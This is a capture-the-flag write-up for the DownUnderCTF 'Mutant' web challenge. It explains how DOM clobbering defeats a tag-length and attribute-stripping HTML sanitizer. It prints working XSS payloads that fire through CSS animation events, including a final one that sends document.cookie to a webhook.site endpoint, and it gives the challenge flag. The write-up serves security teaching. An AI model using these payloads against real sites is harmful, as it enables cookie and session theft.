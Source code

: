 # DownUnderCTF/web - Mutant  
**Author** - ssparow

**Description**: Just an XSS. What more is there to it?

---

For the final payload click [here](#final-payload).

---

## 🛠️ Setup

We're given a straightforward website: enter something, and it gets displayed back to you. Simple enough, but let's see what tricks are hiding under the hood.

<img src="images/web.png" alt="XSS Website" width="300"/>


## 🔍 Code Inspection

Looking at `main.js`, we can see how the input is being sanitized:

<img src="images/main.png" alt="XSS Website" width="400"/>

Here's what the code does:
- Traverses all nodes in the input
- Strips all attributes (so no sneaky event handlers)
- Removes elements with tag names of length 6 or 8  
  - (Filtering by tag length is an interesting choice, but not exactly bulletproof)
- Appends the sanitized input to the HTML

The key part of the code is:
```
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
```
So, if your tag name is 6 or 8 characters long, it's getting removed. Otherwise, it stays.

---

## 🚀 Finding the Payload

- `<script>` and `<iframe>` are blocked by the filter.  
- `<img>` and `<svg>` are the next that come to mind, but they wouldn't work without attributes.  
- 🤔 Time to get creative and look for tags that slip through
- The vulnerability in the script can be exploited using a **DOM Clobbering technique**.
- The loop that is removing the attributes
```
while (n.attributes.length > 0) {
  n.removeAttribute(n.attributes[0].name);
}
```
We can bypass this with
```
<form onmouseover="alert(1)"><input name="attributes"></form>
```
- This loop relies on checking the `length` property of an element's `attributes` object (`n.attributes`).
- By including `<input name="attributes">`inside the `<form>` element, you "clobber" (overwrite) the form's default `.attributes` property. Instead of pointing to the browser's internal list of attributes (a NamedNodeMap), `form.attributes` now points to the `<input>` element itself. This is called **DOM Clobbering**.
- The `<input>`element does not have a `.length` property. Therefore, when the sanitizer checks the condition `n.attributes.length > 0`, it is evaluating `undefined > 0`, which is `false`.
- The while loop is never entered, and the removeAttribute code is never executed for the <form> tag. The malicious onmouseover="alert(1)" attribute remains intact. When the final, supposedly "sanitized" HTML is rendered, moving the mouse over the form will trigger the XSS payload.
- But we still have a problem, when the bot visits the site, it the form element needs a onmouseover to trigger the function and the `<form>` element doesnt have the `onload` property
- Upon some googling and gpting, I found a way to invoke the function on the bot just loading the page.
  - At first I tried `onfocus` with `autofocus` attributes in the form, but they didn't work as the autofocus was converted to `autofocus=""` in the result.
  - Next, I tried `<style>` attribute making the form an animation and using the `onanimationed` attribute in the form element, executing the function required aand it WORKED!

```
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id="attributes"></form>
```

<img src="images/solve.png" alt="XSS Website" width="500"/>

## Final Payload

I used https://webhook.site to create an endpoint the bot would send a request to and created the final payload.
```
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch('https://webhook.site/<my-webhook-id>' + document.cookie)"><input id="attributes"></form>
```

## 🏁 Flag

The request to this site would contain the flag
```
DUCTF{if_y0u_d1dnt_us3_mutation_x5S_th3n_it_w45_un1nt3nded_435743723}
```

This isn't the intended solution!
